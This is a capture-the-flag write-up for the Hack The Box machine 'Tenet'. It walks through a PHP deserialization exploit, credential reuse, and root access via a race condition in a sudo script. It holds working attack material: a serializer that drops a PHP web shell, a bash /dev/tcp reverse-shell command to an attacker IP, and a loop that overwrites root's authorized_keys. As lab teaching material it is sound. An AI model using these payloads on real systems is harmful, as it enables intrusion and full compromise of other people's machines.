





## Introduction

>[!summary]
>**Tenet** is a medium difficulty Linux box based on **code review**. Initial enumeration allowed to discover a PHP file vulnerable to **PHP deserialization**, allowing to get a foothold on the box. Local enumeration allowed to discover **hardcoded credentials** and reuse them to get user access. From there, privilege escalation can be achieved exploiting a **race condition** on a sudo script which allowed to overwrite root’s private key and obtain a high privileged access.

### Improved skills

- Code review
- PHP deserialization attacks
- Exploiting race condition
- Poisoning unsecured file

### Used tools

- nmap
- gobuster
- wpscan
- custom PHP script

---

## Enumeration

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ sudo nmap -p- 10.10.10.223 -sS -Pn -v
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ sudo nmap -p22,80 10.10.10.223 -sT -sV -sC -Pn -v -oN scans/open-tcp-ports.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap revealed an Apache2 Ubuntu Default Page on port 80 and an OpenSSH service on port 22.


Because SSH usually does not offer a large attack surface, enumeration of target was primary focused on port 80. In order to find any possible entry point, web files and directories were enumerated using gobuster:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ gobuster dir -u http://10.10.10.223/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o scans/p80-enum-dirs.txt -f -r
...
/icons/               (Status: 403) [Size: 277]
/server-status/       (Status: 403) [Size: 277]

┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ gobuster dir -u http://10.10.10.223/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p80-enum-files.txt
...
/index.html           (Status: 200) [Size: 10918]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/users.txt            (Status: 200) [Size: 7]

┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ gobuster dir -u http://10.10.10.223/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o scans/p80-common-ext.txt -x txt,php,html
...
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/.html.txt            (Status: 403) [Size: 277]
/.html.php            (Status: 403) [Size: 277]
/.html.html           (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/.htm.txt             (Status: 403) [Size: 277]
/.htm.php             (Status: 403) [Size: 277]
/.htm.html            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/users.txt            (Status: 200) [Size: 7]
/.                    (Status: 200) [Size: 10918]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.phtml               (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htc.txt             (Status: 403) [Size: 277]
/.htc.php             (Status: 403) [Size: 277]
/.htc.html            (Status: 403) [Size: 277]
/.html_var_de         (Status: 403) [Size: 277]
/.html_var_de.txt     (Status: 403) [Size: 277]
/.html_var_de.php     (Status: 403) [Size: 277]
/.html_var_de.html    (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
```

Enumeration revealed a `/wordpress/` directory:



Because the links of the page were pointing to `tenet.htb` and were messing up the resulting page, the domain was added to `/etc/hosts`:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ sudo nano /etc/hosts
...
10.10.10.223    tenet.htb
```



Because the target was a wordpress site, it was enumerated using wpscan:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/scans]
└─$ wpscan --url http://tenet.htb/ -o p80-wordpress.txt
...
[+] URL: http://tenet.htb/ [10.10.10.223]
[+] Started: Fri May  7 15:30:59 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://tenet.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://tenet.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://tenet.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://tenet.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6 identified (Outdated, released on 2020-12-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://tenet.htb/index.php/feed/, <generator>https://wordpress.org/?v=5.6</generator>
 |  - http://tenet.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://tenet.htb/wp-content/themes/twentytwentyone/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://tenet.htb/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://tenet.htb/wp-content/themes/twentytwentyone/style.css?ver=1.0
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://tenet.htb/wp-content/themes/twentytwentyone/style.css?ver=1.0, Match: 'Version: 1.0'
```

At this point we had good information about the target, however there was still no exploitable vulnerabilities.

Further enumeration of the site reveled an interesting comment made by **neil** talking about a php and a backup file: 

> **We’re moving our data over from a flat file structure to something a bit more substantial**. Please bear with us whilst we get one of our devs on the migration, which shouldn’t take too long. Thank you for your patience


> neil: did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!


The search on tenet.htb was unsuccessful, but the IP search allowed to access the two files:






## Foothold

The backup file contained the source code of `sator.php`:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/loot]
└─$ cat -n  sator.php.bak
     1  <?php
     2
     3  class DatabaseExport
     4  {
     5          public $user_file = 'users.txt';
     6          public $data = '';
     7
     8          public function update_db()
     9          {
    10                  echo '[+] Grabbing users from text file <br>';
    11                  $this-> data = 'Success';
    12          }
    13
    14
    15          public function __destruct()
    16          {
    17                  file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
    18                  echo '[] Database updated <br>';
    19          //      echo 'Gotta get this working properly...';
    20          }
    21  }
    22
    23  $input = $_GET['arepo'] ?? '';
    24  $databaseupdate = unserialize($input);
    25
    26  $app = new DatabaseExport;
    27  $app -> update_db();
    28
    29
    30  ?>
```

Looking at the code was possible to detect a **PHP deserialization** vulnerability caused by the `__destruct()` magic method, which is **called every time there are no other references to a particular object during the shutdown sequence** (more info [here](https://www.php.net/manual/en/language.oop5.magic.php)).

By design the function updates the `users.txt` file on the server using the `$app` object, however because the `unserialize()` methods allowed to instantiate a new custom object `$databaseupdate`, it was possible to exploit the PHP deserialization and abuse the `__destruct()` to **write arbitrary file** on disk, leading to remote code execution.

The script used to craft the PoC was the following one:

```php
<?php

class DatabaseExport
{
        public $user_file = 'test.txt';
        public $data = '10099 the test';
}

$app = new DataBaseExport;
$serialized = serialize($app);
echo $serialized;

?>
```

It was used to serialize a custom object:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ php serializer.php
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"test.txt";s:4:"data";s:14:"10099 the test";}
```

The serialized object was passed to the vulnerable function:


`test.txt` was created, meaning that the **PoC worked** and the target is vulnerable:


To get remote code execution the script was modified to write a simple web shell on the target:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ cat -n serializer.php
     1  <?php
     2
     3  class DatabaseExport
     4  {
     5          public $user_file = 'maoutis.php';
     6          public $data = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>';
     7  }
     8
     9  $app = new DataBaseExport;
    10  $serialized = serialize($app);
    11  echo $serialized;
    12
    13  ?>

┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ php serializer.php
O:14:"DatabaseExport":2:{s:9:"user_file";s:11:"maoutis.php";s:4:"data";s:113:"<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>";}
```

Then the exploit object was passed to the vulnerable function and the web shell was generated:


Finally the reverse shell command was sent to the web shell and a connection was obtained: 

`http://10.10.10.223/maoutis.php?cmd=/bin/bash+-c+’bash+-i+>%26+/dev/tcp/10.10.14.24/10099+0>%261`

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.223] 30304
bash: cannot set terminal process group (1642): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$ whoami
whoami
www-data
www-data@tenet:/var/www/html$
www-data@tenet:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@tenet:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ stty raw -echo; fg

[1]  + continued  nc -nlvp 10099

www-data@tenet:/var/www/html$ export TERM=xterm
www-data@tenet:/var/www/html$ stty rows 60 columns 235
```

## Lateral Movement

Enumerated local users:

```bash
www-data@tenet:/var$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
lxd:x:105:65534::/var/lib/lxd/:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
neil:x:1001:1001:neil,,,:/home/neil:/bin/bash
```

Wordpress configuration file **leaked mysql credentials**:

```bash
www-data@tenet:/var/www/html/wordpress$ cat -s wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera<redacted>' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Because `neil` reused the same password, it was possible to get user access to the target machine using leaked credentials:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Tenet/exploit]
└─$ ssh neil@tenet.htb
neil@tenet.htb's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri May  7 22:39:29 UTC 2021

  System load:  0.0                Processes:             185
  Usage of /:   15.4% of 22.51GB   Users logged in:       0
  Memory usage: 12%                IP address for ens160: 10.10.10.223
  Swap usage:   0%

53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri May  7 19:57:44 2021 from 10.10.14.13
neil@tenet:~$ id
uid=1001(neil) gid=1001(neil) groups=1001(neil)
```

## Privilege Escalation

Enumerated `neil` sudo privileges:

```bash
neil@tenet:~/.local/share/nano$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Enumerated enableSSH.sh:

```bash
neil@tenet:~/.local/share/nano$ cat -sn /usr/local/bin/enableSSH.sh
     1  #!/bin/bash
     2
     3  checkAdded() {
     4
     5          sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
     6
     7          if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
     8
     9                  /bin/echo "Successfully added $sshName to authorized_keys file!"
    10
    11          else
    12
    13                  /bin/echo "Error in adding $sshName to authorized_keys file!"
    14
    15          fi
    16
    17  }
    18
    19  checkFile() {
    20
    21          if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
    22
    23                  /bin/echo "Error in creating key file!"
    24
    25                  if [[ -f $1 ]]; then /bin/rm $1; fi
    26
    27                  exit 1
    28
    29          fi
    30
    31  }
    32
    33  addKey() {
    34
    35          tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
    36
    37          (umask 110; touch $tmpName)
    38
    39          /bin/echo $key >>$tmpName
    40
    41          checkFile $tmpName
    42
    43          /bin/cat $tmpName >>/root/.ssh/authorized_keys
    44
    45          /bin/rm $tmpName
    46
    47  }
    48
    49  key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
    50  addKey
    51  checkAdded
```

Looking at the source code it was possible to detect a **race condition** vulnerability in the `addKey()` function caused by the **insecure temporary save of the future content of root’s authorized_key**. This issue allowed to poison the temp file and inject inside the root’s `authorized_keys` a custom value, allowing to get a high privileged access to the machine.

PoC of the insecure temp files (word writable file):

```bash
neil@tenet:/tmp$ while true; do ls -al /tmp/ssh* 2>/dev/null; done &
[1] 17432
neil@tenet:/tmp$ sudo /usr/local/bin/enableSSH.sh
-rw-rw-rw- 1 root root 393 May  8 11:52 /tmp/ssh-ZivT3CmF
```

Created a loop that poisons the temp file with a custom ssh public key:

```bash
neil@tenet:/tmp$ while true; do for i in $(ls /tmp/ssh* 2>/dev/null); do echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDAtXPtZN+kJ7TjgTIBnQdDQz9S/i417/k+SFrAl8vsUaBpgZrMQ3C6hFUnlLCYx4XTlE3ux/ucakxudjc/0PTjnYJBvUVWqzrrkHyOQ9a4jql3f3VdQjQojYu9QuF7gw2upR10f8vfBK5150AcvlG9Guo/bpiILQBHmVyBz3/0q/CJaiklBoWtfqGUvpCRYMi0A6SlW3ivmPMHqpJOmjw45U+NRCJMt9FwR/MvbpCxafLT2NjNId7sAySYY+zSJsmtKGz5jpLYrgOUUqrT03eRVivn5FcOlRY0SeRZe9q04DPw39PsjnHuzRioz49FnLb/J6HCpEx0BGM3vVhDoMTtWPmRVbKJbZw84RigagcAYnjL9uEhuzjAIqFpH+0HBetQ1ZXGlGQNwAR8FC+bZcnulQWUC5ceYtszHsrjNSwaDBL675thz5TtygxVVov12PyPQCONX5Xep3Ylxj53lNYlVKUbfiMGI3kXxmcsocXubHI7Au+q9FKq8XIoZadangM=' > $i; done; done &
[1] 28754
```

Ran the script a couple of times in order to be sure to overwrite the key:

```bash
neil@tenet:/tmp$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$
neil@tenet:/tmp$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ ls
pspy64
ssh-gEr8Rial
ssh-NIjuZPmj
systemd-private-3417bcfcc60f4260a884e8b9ab6b2234-apache2.service-jp1S5z
systemd-private-3417bcfcc60f4260a884e8b9ab6b2234-systemd-resolved.service-FUiyZO
systemd-private-3417bcfcc60f4260a884e8b9ab6b2234-systemd-timesyncd.service-xDGTr1
tmux-1001
vmware-root_982-2965972296
```

Logged in using the custom ssh key:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Tenet]
└─$ sudo ssh root@tenet.htb -i /home/pwn/.ssh/id_rsa
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May  8 12:14:32 UTC 2021

  System load:  1.11               Processes:             189
  Usage of /:   15.5% of 22.51GB   Users logged in:       1
  Memory usage: 19%                IP address for ens160: 10.10.10.223
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Feb 11 14:37:46 2021
root@tenet:~# whoami && hostname && cat /root/root.txt && ifconfig
root
tenet
04fd5a870b622aa491f031f6fe80f662
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.223  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:c415  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:c415  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:c4:15  txqueuelen 1000  (Ethernet)
        RX packets 772376  bytes 120290915 (120.2 MB)
        RX errors 0  dropped 366  overruns 0  frame 0
        TX packets 796895  bytes 315607462 (315.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 192113  bytes 13793013 (13.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 192113  bytes 13793013 (13.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!quote]
>In a parallel worlds theory, we can't know the relationship between consciousness and multiple realities. Does your head hurt yet ? Try to get some sleep.
>
>\- Neil
